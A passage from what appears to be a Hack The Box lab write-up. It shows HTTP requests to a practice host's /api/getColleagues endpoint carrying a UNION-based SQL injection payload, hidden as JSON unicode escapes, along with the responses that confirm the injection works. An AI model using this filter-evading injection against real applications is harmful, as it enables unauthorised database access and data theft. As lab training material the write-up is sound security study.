 **Response**

```
HTTP/1.1 200 OK
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Sat, 21 Mar 2020 14:10:42 GMT
Connection: close
Content-Length: 4

null
```

I was able to successfully send the following SQLi string to the application server.

```
-1' UNION SELECT 1,2,3,4,5-- -
```

**Request**

```
POST /api/getColleagues HTTP/1.1
Host: megacorp.local
User-Agent: curl/7.68.0
Accept: */*
Content-Type: application/json
Content-Length: 191
Connection: close

{"name":"\u002d\u0031\u0027\u0020\u0055\u004e\u0049\u004f\u004e\u0020\u0053\u0045\u004c\u0045\u0043\u0054\u0020\u0031\u002c\u0032\u002c\u0033\u002c\u0034\u002c\u0035\u002d\u002d\u0020\u002d"}
```

**Response**

```
HTTP/1.1 200 OK
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Sat, 21 Mar 2020 14:11:54 GMT
Connection: close
Content-Length: 58

[{"id":1,"name":"2","position":"3","email":"4","src":"5"}]
```


[1]: https://www.hackthebox.eu/home/machines/profile/232
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/